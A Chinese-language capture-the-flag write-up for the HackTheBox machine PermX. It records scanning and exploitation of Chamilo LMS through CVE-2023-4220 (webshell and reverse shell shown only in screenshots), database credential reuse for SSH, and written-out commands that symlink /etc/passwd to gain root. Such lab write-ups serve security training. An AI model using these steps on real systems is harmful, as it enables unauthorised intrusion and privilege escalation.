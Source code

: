 ```yaml
---
title: "HTB-PermX"
date: 2024-09-03
categories: 
  - "HTB-Machine"
tags: 
  - "hackthebox"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Basic Scan

### Nmap

```
namp 10.10.11.23 -A -O
```

![](./images/image.png)

**Opened Ports：22、80**

**Server：Apache 2.4.52 (Ubuntu)**

### Subdomain Fuzzing

Github：[TheKingOfDuck/fuzzDicts: Web Pentesting (github.com)](https://github.com/TheKingOfDuck/fuzzDicts)

```
ffuf -w main.txt -u http://permx.htb/ -H "Host:FUZZ.permx.htb" -mc 200
```

![](./images/image-3.png)

找到两个子域名：**www**、**lms**

更新**/etc/hosts**

![](./images/image-4.png)

### Dirsearch

```
dirsearch -u http://permx.htb/
```

![](./images/image-1.png)

```
dirsearch  -u lms.permx.htb
```

![](./images/image-5.png)

在**LICENSE**里得到**Chamilo LMS**的版本信息

![](./images/image-6.png)

### Gobuster

```
gobuster dir -u http://permx.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```

![](./images/image-2.png)

## CVE-2023-4220

Github：[Rai2en/CVE-2023-4220-Chamilo-LMS: CVE-2023-4220 (github.com)](https://github.com/Rai2en/CVE-2023-4220-Chamilo-LMS)

![](./images/image-7.png)

![](./images/image-8.png)

成功上传webshell

![](./images/image-9.png)

![](./images/image-10.png)

以及反弹shell

![](./images/image-11.png)

![](./images/image-12.png)

发现mysql用户名以及密码

![](./images/image-13.png)

```
mysql -u chamilo -p03F6lY3uXAP2bkW8

select username,password from user;
```

![](./images/image-14.png)

尝试进行爆破，失败。

![](./images/image-15.png)

存在一个mtz的用户，尝试用数据库的密码进行ssh登录，成功。

![](./images/image-16.png)

![](./images/image-17.png)

## Privilege Escalation

![](./images/image-20.png)

![](./images/image-21.png)

这个脚本用于确保安全地为 `/home/mtz/` 目录下的某个文件设置**特定用户的权限**，防止未经授权的目录访问或操作。

```
touch test
ln -sf /etc/passwd /home/mtz/test  # 将test链接到/etc/passwd
sudo /opt/acl.sh mtz rw /home/mtz/test  #给test文件设置为mtz，并且可读可写
echo "hyh::0:0:hyh:/root:/bin/bash" >> ./test #将用户信息写入test
su hyh 
```

![](./images/image-22.png)

## Summary

端口、子域名扫描获取web服务相关信息。从CVE入手获取到普通shell权限。

在/opt/acl.sh中可以构造软链接，将写入的用户信息链接到/etc/passwd即可获取root权限。
